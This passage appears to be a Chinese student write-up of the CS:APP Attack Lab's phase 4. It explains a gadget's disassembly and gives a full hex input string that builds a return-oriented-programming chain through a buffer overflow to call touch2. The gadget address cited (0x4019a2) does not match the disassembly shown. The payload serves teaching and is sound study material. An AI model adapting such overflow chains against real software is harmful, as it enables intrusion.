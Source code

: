 ```assembly
00000000004019c3 <setval_426>:
 944   4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)                                                 
 945   4019c9:   c3                      retq
```

 `48 89 c7` 就是 `movq %rax,%rdi` ，就通过`rax`将栈上的值存入了 `rdi` ，因此将 `cookie` 值存入栈中，就可以传值，这段代码地址是 `0x4019a2` 。

因此输入字符串先是一段填充的 40 字节，然后是跳转地址，设为 pop 的地址 `0x4019ab` ，接着存入 `cookie` 值（就是将要 pop 的那个值，注意应存入 64 位值），然后是 mov 的地址 `0x4019a2` ，最后跳转到 `touch2` ，这样一个完整的 ROP 攻击链就形成了，一个可行的答案就是：

```c
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ab 19 40 00 00 00 00 00			/* popq的地址 */
fa 97 b9 59 00 00 00 00			/* cookie */
a2 19 40 00 00 00 00 00			/* mov的地址 */
ec 17 40 00 00 00 00 00			/* touch2的地址 */
```

具体逻辑图如下，手残谅解。

![](Attack%20Lab.assets/attack4-16660111803881.png)

